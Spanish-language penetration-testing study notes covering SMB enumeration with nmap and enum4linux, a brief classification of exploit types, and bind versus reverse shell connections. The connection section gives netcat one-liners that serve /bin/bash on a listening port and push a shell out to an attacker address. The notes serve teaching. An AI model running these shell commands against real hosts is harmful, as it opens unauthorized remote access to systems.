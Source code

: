 detectar versión de smb y sus características:

```bash
nmap -p445 -T4 -sT   -A  10.0.0.1
enum4linux  -t 10.0.0.1
```



#### Tipología de exploits

Cuando hablamos de un exploit nos referimos al software que permite tomar cierta ventaja de una vulnerabilidad ya sea para acceder al sistema,  elevar privilegios, realizar denegación de servicios, etc...

**Exploits remotos:** Son aquellos que se lanzan de forma remota a aquellos dispositivos que se tiene visibilidad.

**Exploits locales:** son aquellos que se lanzan una vez ya estas dentro del sistema, normalmente para elevar privilegios.

**Exploits del lado del cliente:** Son los que se lanzan normalmente a una plataforma web y afectara a los clientes que se conecten a dicha plataforma.



#### Tipos de conexión

##### Conexión directa

En la conexión directa  accedes estableces un túnel desde el host atacante al vulnerable, el vulnerable tendrá un puerto abierto en escucha y conectaremos contra él. Este tipo de conexiones es posible que fallen ya que en el firewall se acede desde fuera hacia adentro y si esta bien configurado lo filtrara.

```bash
#  host vulnerable abre puerto de escucha
nc -lvvp 1234 -e /bin/bash
# atacante se conecta a puerto conocido
nc  10.0.0.5 1234
~# _
```



##### Conexión inversa

En esta conexión lo que se crea un túnel que sale del host vulnerable al host atacante, de esta forma en la gran mayoría de firewalls no lo filtraran. El modo de uso es el atacante abre un puerto a la escucha y el vulnerable mediante un exploit se conectara al atacante.

```bash
# atacante abre su puerto
nc -lvvp 1234
# vulnerable se conecta al atacante 
nc 10.0.0.6 -e /bin/bash
```




